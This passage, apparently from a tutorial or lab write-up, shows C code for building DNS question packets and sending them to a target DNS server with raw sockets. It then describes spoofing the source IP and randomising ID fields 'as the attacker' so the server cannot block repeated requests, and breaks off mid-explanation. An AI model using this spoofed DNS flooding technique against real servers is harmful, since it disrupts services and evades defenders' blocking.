 #### 2.7.2. Filling the DNS Question Structure

Next, we fill the `dns_question` structure as follows: 

```c
size_t fill_dns_question(char* buffer) {

    int len = 0;
    struct dns_question question;
    question.name = build_domain_qname(DOMAIN_NAME);
	question.dnstype = htons(1);   // QTYPE A records
	question.dnsclass = htons(1);  // QCLASS Internet Address

    memcpy(buffer, question.name, strlen(question.name) + 1);
    buffer += strlen(question.name) + 1 ;
    memcpy(buffer, &question.dnstype, sizeof (question.dnstype));
    buffer += sizeof(question.dnstype);
    memcpy (buffer, &question.dnsclass, sizeof (question.dnsclass));

	int ret_len = strlen(question.name) +  1 + sizeof(question.dnstype) + sizeof (question.dnsclass);
	free(question.name);
    return ret_len;
}
```



### 2.8. Using `sendto()` to Send the Payload:

Finally, we send our packets using the `sendto()` function:

```c
sendto(sd, buffer, pos, 0, (struct sockaddr *)&sin, sizeof(sin)) < 0 )
```

Here `sin` is the `sockaddr_in` in which we specify the `sin_family`, destination IP and the destination port:

```c
void fill_sin(struct sockaddr_in *sin) {
    sin->sin_family = AF_INET;  // IP Address Family
    sin->sin_port = htons(DNS_PORT);
    sin->sin_addr.s_addr = inet_addr(DNS_SERVER);
}
```



## 3. Spoofing Source IP

As the attacker, we want to spoof our IP address every time we send the DNS server any request. Otherwise, the server may identify the source IP from the repeating requests and stop processing / block further requests from it. To spoof our IP, we will 

-   Change the source IP address in our payload with a random IP 
-   Change the ID field in the IP header with a random ID
-   Change the ID field in the DNS header with a random ID
